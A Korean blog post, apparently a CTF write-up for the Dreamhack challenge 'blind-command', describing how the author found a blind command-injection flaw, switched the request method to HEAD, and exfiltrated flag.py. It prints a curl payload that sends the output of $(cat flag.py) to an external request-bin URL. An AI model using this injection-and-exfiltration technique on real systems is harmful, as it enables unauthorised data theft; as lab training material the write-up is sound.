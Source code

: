 ```yaml
---
layout: post
title:  "[Dreamhack] blind-command"
date:   2025-03-13 08:42:22 +0900
featured: /assets/images/블로그2.jpg
categories: jekyll update
---
```

<p>안녕하세요! 이번 문제는 드림핵 Epilogue에 있는 2번째 CTF입니다.</p>
<img src="/assets/images/p2-1.PNG" style="max-width: 100%; height: auto;"> 
<p>페이지를 보면 "cmd=?"가 출력되있으며, command injection이라는 것을 확인이 가능합니다.</p>
<img src="/assets/images/p2-2.PNG" style="max-width: 100%; height: auto;"> 
<p>하지만 url로 "cat flag.py"를 입력하면 문자 그대로 랜딩되는 것을 알 수 있습니다.</p>
<img src="/assets/images/p2-3.PNG" style="max-width: 100%; height: auto;"> 
<p>혹시 GET 아닌 다른 메소드로 전송이 가능한지, OPTIONS으로 메소드를 확인해보았습니다.</p>
<img src="/assets/images/p2-6.PNG" style="max-width: 100%; height: auto;"> 
<p>허용된 HEAD를 사용해서 전송해보니, 정상적으로 전송되는 것을 확인 가능합니다. 하지만 HEAD는 응답을 받지 못하는데요.</p>
<img src="/assets/images/p2-5.PNG" style="max-width: 100%; height: auto;"> 
<p>저는 요청을 다른 IP 또는 URL로 커맨드 결과를 전송할수 있는 curl 커맨드 와, 그 요청을 받을 수 있는 드림핵에서 지원해주는 Request bin이라는 페이지를 사용하였습니다.</p>
<img src="/assets/images/p2-7.png" style="max-width: 100%; height: auto;">
<p>?cmd=curl -X -POST https://~ $(cat flag.py)를 인코딩하여 버프 스위트로 GET을 HEAD로 변경하여 전송합니다.</p>
<img src="/assets/images/p2-8.png" style="max-width: 100%; height: auto;"> 
<p>Request bin 페이지를 보면 flag값을 수신한 것을 볼 수 있습니다.</p>